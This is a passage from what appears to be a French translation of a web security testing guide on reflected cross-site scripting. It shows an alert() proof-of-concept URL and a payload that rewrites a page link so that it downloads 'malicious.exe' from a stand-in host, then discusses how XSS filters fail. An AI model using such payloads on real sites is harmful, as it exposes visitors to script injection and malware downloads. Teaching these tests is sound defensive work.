 Par exemple, considérons un site qui a une notice de bienvenue "
Bienvenue %username% " et un lien de téléchargement.

![Image:XSS Example1.png](XSS_Example1.png "Image:XSS Example1.png")

Le testeur doit soupçonner que chaque point d'entrée de données peut
servir à une attaque XSS. Pour l'analyser, il va jouer avec la variable
utilisateur et essayer de déclencher la vulnérabilité.

Cliquons sur le lien suivant et voyons ce qui se passe :

    http://example.com/index.php?user=<script>alert(123)</script>

Si aucun nettoyage n'est fait, la popup suivante va s'afficher :

![Image:alert.png](alert.png "Image:alert.png")

Cela indique qu'il y a une vulnérabilité XSS et que le testeur peut
exécuter du code de son choix dans le navigateur de quiconque cliquera
sur le lien du testeur.

#### Exemple 2

Essayons un autre morceau de code (link) :

    http://example.com/index.php?user=<script>window.onload = function() {var AllLinks=document.getElementsByTagName("a");
    AllLinks[0].href = "http://badexample.com/malicious.exe"; }</script>

Cela produit le comportement suivant :

![Image:XSS Example2.png](XSS_Example2.png "Image:XSS Example2.png")

L'utilisateur cliquant sur le lien fournit par le testeur va télécharger
le fichier malicious.exe depuis le site sous contrôle.

### Contourner les filtres XSS

La prévention des reflected cross-site scripting passe par la validation
des entrées par l'application web, le blocage des entrées malicieuses
par un firewall applicatif, ou par des mécanismes inclus dans les
navigateurs modernes. Le testeur doit considérer que le navigateur
n'empêchera pas l'attaque. Les navigateurs peuvent être obsolètes, ou
avoir leurs fonctions de sécurité désactivées. De même, les firewalls
applicatifs n'offrent aucune garantie pour les attaques nouvelles et
inconnues. Un attaquant peut concevoir une chaîne d'attaque qui ne sera
pas reconnue par le firewall applicatif.

Ainsi, la plus grande part de la prévention des XSS dépend de la
validation des entrées utilisateur. Il y a divers mécanismes à
disposition des développeurs, comme le renvoi d'erreur, la suppression,
l'encodage ou le remplacement des entrées invalides. Les moyens par
lesquels l'application détecte et corrige les entrées invalides sont
aussi une des principales faiblesses pour la prévention des XSS. Une
liste noire ne comprendra pas toutes les chaînes d'attaque possibles,
une liste blanche peut être trop permissive, la correction pourrait
échouer, ou une type d'entrée pourrait être incorrectement accepté et
rester sans correction. Tout cela peut permettre aux attaquants de
contourner les filtres XSS.
